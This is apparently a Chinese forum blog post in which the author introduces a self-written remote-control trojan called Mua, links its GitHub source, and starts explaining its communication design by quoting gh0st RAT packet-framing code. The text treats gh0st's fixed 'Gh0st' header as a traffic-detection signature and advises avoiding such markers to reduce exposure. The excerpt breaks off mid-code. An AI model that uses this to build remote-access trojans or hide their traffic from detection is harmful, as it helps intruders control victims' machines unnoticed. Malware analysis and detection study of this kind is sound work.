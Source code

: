 木马连起来读就是Mua


去年年末和社团好友聊天的时候，突然萌生了写一个属于自己的木马的想法。然后有幸遇到了一位超级厉害的大师傅，他给我介绍了很多有关木马的知识，受益匪浅。他建议我先写远程SHELL和文件上传这两个最基础的功能，然后后续的功能可以作为组件推送给被控端。他还建议我上驱动，因为r3现在能做的事情不是很多。等等。

寒假过了几天才有时间开始翻资料动手写，满打满算写了20天左右。本来还想继续完善的，但是要开学了，索性直接把目前的版本开源吧，写这篇文章主要是记录一下我目前的进展。因为时间问题，写的还简陋，目前只实现了远程SHELL和文件上传下载，而且未经大量测试，程序的健壮性还不行，劳请师傅们多多包涵。

论坛里的大佬太多了，本文仅供抛砖引玉。我也是第一次写木马，没啥经验，而且水平有限，如有谬误，请您批评指正O(∩_∩)O

代码开源在：[iyzyi/Mua-Remote-Control-Trojan: MUA远控木马 (github.com)](https://github.com/iyzyi/Mua-Remote-Control-Trojan)

虽然代码很简陋，也就供师傅们看一乐，但是还是得加一句：请勿用于非法用途。

## 通信模型

首先，一个木马最基础的自然就是通信了。通信模型的好坏直接决定了被检测出恶意流量的几率。

### gh0st的通信

举个例子，gh0st的封包的开头5个字节都是Gh0st，这就可以作为流量检测的匹配规则。

相关源码：

```c++
// Packet Flag;
BYTE bPacketFlag[] = {'G', 'h', '0', 's', 't'};
memcpy(m_bPacketFlag, bPacketFlag, sizeof(bPacketFlag));

// 中间省略无关代码

LONG nBufLen = destLen + HDR_SIZE;
// 5 bytes packet flag
pContext->m_WriteBuffer.Write(m_bPacketFlag, sizeof(m_bPacketFlag));
// 4 byte header [整个数据包的大小]
pContext->m_WriteBuffer.Write((PBYTE) &nBufLen, sizeof(nBufLen));
// 4 byte header [解压缩整个包的大小]
pContext->m_WriteBuffer.Write((PBYTE) &nSize, sizeof(nSize));
// Write Data
pContext->m_WriteBuffer.Write(pDest, destLen);
delete [] pDest;
```

当然，用这个作为流量检测也不是很方便，首先EDR也得跟着处理粘包才能将封包从TCP数据流中分离出来（吧），其次手里有源码，可以随便改这个封包头。

由于我没做过EDR的工作，这里就不深入展开了。免得贻笑大方。但是我个人还是觉得，这种明显的标志最好不要出现在传输的流量中，增加了暴露的可能。

gh0st的作者为啥要安排这5个字节？翻阅源码可以知道答案：（我添加了一些方便理解的注释）

```c++
// 缓冲区数据长度是否大于封包头部长度（这是处理粘包的标准操作）
while (pContext->m_CompressionBuffer.GetBufferLen() > HDR_SIZE)
{
    BYTE bPacketFlag[FLAG_SIZE];
    CopyMemory(bPacketFlag, pContext->m_CompressionBuffer.GetBuffer(), sizeof(bPacketFlag));
	
    // 封包是否合法 通过 封包头部五个字节是否是Gh0st 来判断的
    if (memcmp(m_bPacketFlag, bPacketFlag, sizeof(m_bPacketFlag)) != 0)
        throw "bad buffer";

    int nSize = 0;
    CopyMemory(&nSize, pContext->m_CompressionBuffer.GetBuffer(FLAG_SIZE), sizeof(int));

    // Update Process Variable
    pContext->m_nTransferProgress = pContext->m_CompressionBuffer.GetBufferLen() * 100 / nSize;

    if (nSize && (pContext->m_CompressionBuffer.GetBufferLen()) >= nSize)
    {
```